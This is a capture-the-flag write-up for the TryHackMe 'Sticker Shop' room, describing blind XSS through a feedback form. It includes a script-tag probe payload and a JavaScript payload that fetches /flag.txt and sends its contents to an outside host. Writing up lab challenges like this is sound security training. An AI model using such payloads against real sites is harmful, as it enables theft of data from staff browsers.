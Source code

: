 ## The Sticker Shop 
You can join this room [Here](https://tryhackme.com/r/room/thestickershop)

This was an easy-level XSS challenge where the goal was to inject Blind XSS and retrieve the flag. Initially, I tried directory brute-forcing, but it yielded no results.The endpoint `http://xxx/submit_feedback` which allowed form submissions and the response only included a static reflection: ` Thanks for your feedback! It will be evaluated shortly by our staff`.

From the challenge description: `they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback`. This clue suggested that the feedback would eventually be reviewed in staff's browser on the same system, making it a perfect scenario for Blind XSS. And listening on remote won't be worked.

### Exploitation
I hosted a local server on port 5000 and injected the following payload: `<script src="http://myip:5000"></script>` . When the payload executed, it confirmed that the feedback was being reviewed in a browser.
Next, I attempted to retrieve the contents of the `flag.txt` file using this payload:

`<script>fetch('/flag.txt').then(res => res.text()).then(flag => fetch('http://myweb.com/?flag='+encodeURIComponent(flag)))</script>`

After submitting the payload, I successfully received the flag: `THM{837xxxxxxxxxxx05ee6}`

\>_ Happy Hacking
